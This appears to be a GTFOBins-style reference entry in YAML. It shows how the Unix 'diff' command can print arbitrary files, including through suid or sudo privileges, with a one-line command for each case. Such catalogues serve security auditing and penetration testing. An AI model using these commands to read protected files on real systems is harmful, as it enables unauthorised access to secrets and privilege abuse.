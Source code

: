 ```yaml
---
functions:
  file-read:
    - code: |
        LFILE=file_to_read
        diff --line-format=%L /dev/null $LFILE
  suid:
    - code: |
        LFILE=file_to_read
        ./diff --line-format=%L /dev/null $LFILE
  sudo:
    - code: |
        LFILE=file_to_read
        sudo diff --line-format=%L /dev/null $LFILE
---
```

